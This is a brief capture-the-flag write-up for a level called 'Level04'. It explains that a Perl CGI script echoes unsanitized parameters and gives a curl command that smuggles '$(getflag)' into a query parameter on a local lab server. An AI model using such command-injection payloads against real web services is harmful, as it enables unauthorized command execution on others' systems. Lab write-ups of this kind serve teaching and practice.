 # Level04

The `level04.pl` script executes the `echo` command with the CGI parameters without sanitizing them, we'll input our exploit inside them to get the flag.
>`curl 'http://localhost:4747/?x=$(getflag)'`
